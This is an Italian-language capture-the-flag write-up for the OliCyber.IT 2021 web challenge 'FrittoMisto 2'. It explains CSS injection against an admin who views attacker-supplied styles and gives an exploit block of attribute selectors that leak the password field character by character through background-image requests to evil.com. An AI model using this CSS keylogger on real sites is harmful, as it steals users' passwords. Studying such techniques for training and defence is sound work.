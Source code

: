 # OliCyber.IT 2021 - Competizione nazionale

## [web-02] FrittoMisto 2 (4 risoluzioni)

Una volta effettuato l'accesso è possibile creare uno stile css custom per il sito, che poi si può inviare all'admin in modo che lo visualizzi.

### Soluzione

L'admin apre il sito utilizzando il nostro stile custom, effettua l'accesso e naviga in giro per dare un'occhiata.

Si potrebbe pensare di provare a inserire del JS per fare una XSS, ma ogni tentativo dà scarsi risultati. Vediamo quindi cosa si può ottenere con solo CSS.

Di base sappiamo di avere la possibilità di effettuare richieste a tutti gli indirizzi che vogliamo. Se pensiamo a un

```css
body {
  background-image: url("http://evil.com/test");
}
```

quando il browser carica la pagina effettua una richiesta a `http://evil.com/test`.

Noi però vogliamo ottenere la password.

Una cosa interessante di CSS è che ci viene data la possibilità di selezionare un elemento in base al valore dei suoi attributi. Tra cui, per esempio, "value".

```css
input[value="test"] {
  background: red;
}
```

L'esempio qui sopra mette uno sfondo rosso a tutti gli input che come valore hanno la stringa `"test"`.

Ma non finisce qui! Ci sono modi per fare check come:

- `input[value~="test"]` seleziona tutti gli input col valore che **contiene la parola** `"test"`
- `input[value^="test"]` seleziona tutti gli input col valore che **inizia** con `"test"`
- `input[value$="test"]` seleziona tutti gli input col valore che **termina** con `"test"`
- `input[value*="test"]` seleziona tutti gli input col valore che **contiene** `"test"`

In questo modo è possibile realizzare un keylogger interamente in CSS.

### Exploit

Testando la lettera finale, possiamo ottenere la password inserita carattere per carattere:

```css
#password[value$=" "] {
  background-image: url("http://evil.com/?c=+");
}
#password[value$="!"] {
  background-image: url("http://evil.com/?c=%21");
}
#password[value$='"'] {
  background-image: url("http://evil.com/?c=%22");
}
#password[value$="#"] {
  background-image: url("http://evil.com/?c=%23");
}
#password[value$="$"] {
  background-image: url("http://evil.com/?c=%24");
}
```